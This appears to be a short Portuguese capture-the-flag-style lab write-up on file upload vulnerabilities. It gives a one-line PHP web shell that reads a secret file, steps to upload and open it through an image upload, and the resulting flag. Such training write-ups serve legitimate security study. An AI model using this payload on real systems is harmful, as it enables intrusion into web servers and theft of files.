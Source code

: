 # Exercises

## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s

